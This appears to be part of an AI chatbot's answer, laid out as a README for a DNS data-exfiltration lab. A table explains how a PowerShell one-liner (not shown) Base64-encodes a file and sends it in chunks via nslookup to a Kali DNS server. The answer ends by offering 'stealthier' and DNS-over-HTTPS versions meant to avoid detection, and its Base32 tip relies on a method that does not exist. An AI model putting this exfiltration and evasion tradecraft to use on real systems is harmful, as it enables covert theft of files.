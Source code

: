 ## 🔍 What It Does

| Component  | Explanation                                 |
| ---------- | ------------------------------------------- |
| `$D`       | Your domain (e.g., `exfil.lab`)             |
| `$F`       | File path to exfiltrate                     |
| `$H`       | Hostname of the sender (as session ID)      |
| Base64     | Encodes contents of file                    |
| Chunks     | Each DNS query sends 50-character chunks    |
| `nslookup` | Sends fake DNS A queries to your server     |
| `10.0.0.5` | Internal DNS server IP (replace with yours) |

---

## 🧪 Usage (Offline Lab)

1. Run your Kali DNS server:

   ```bash
   sudo python3 server/server_dns.py
   ```

2. On your Windows test machine (with DNS set to Kali), paste the one-liner into PowerShell.

3. Watch the Kali terminal — it will log each incoming chunk and eventually reconstruct the file.

---

## ⚠️ Notes

* **Base64 can use invalid DNS characters.** You may switch to Base32 for better compatibility:
  Replace `[Convert]::ToBase64String(...)` with:

  ```powershell
  $enc = ([System.Convert]::ToBase32String(...)) # requires custom Base32 method
  ```

* DNS label length limit is 63 chars. Keep chunk size ≤ 50 for safety.

---

Would you like:

* A **version that uses Base32** instead (safer for DNS)?
* A **stealthier version** using `Resolve-DnsName` instead of `nslookup`?
* A **DoH version** to avoid raw UDP?

Let me know!

---


[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"
